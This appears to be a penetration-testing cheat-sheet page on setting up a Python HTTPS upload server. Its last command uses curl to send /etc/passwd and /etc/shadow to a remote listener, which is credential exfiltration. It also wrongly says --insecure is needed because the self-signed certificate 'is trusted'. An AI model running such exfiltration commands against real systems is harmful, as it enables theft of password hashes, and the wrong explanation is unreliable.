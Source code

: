 ```yaml
---
icon: linux
---
```


# Linux Python Upload Server

**uploadserver** is an extended module of the **Python HTTP.Server module**, which includes a file upload page.

**Install the uploadserver module:**

```shell
clue@machine[/]$ sudo python3 -m pip install --user uploadserver

Collecting uploadserver
  Using cached uploadserver-2.0.1-py3-none-any.whl (6.9 kB)
Installing collected packages: uploadserver
Successfully installed uploadserver-2.0.1
```

**Create a self-signed certificate:**

```shell
clue@machine[/]$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

Generating a RSA private key
................................................................................+++++
.......+++++
writing new private key to 'server.pem'
-----
```

**Note:** The webserver should not host the certificate, create a new directory to host the file for the webserver.

**Start the webserver:**

```shell
clue@machine[/]$ mkdir https && cd https
```

```shell
clue@machine[/]$ sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https://0.0.0.0:443/) ...
```

**Upload multiple files:**

```shell
clue@machine[/]$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

**Note:** The `--insecure` option was used here because the self-signed certificate is trusted.
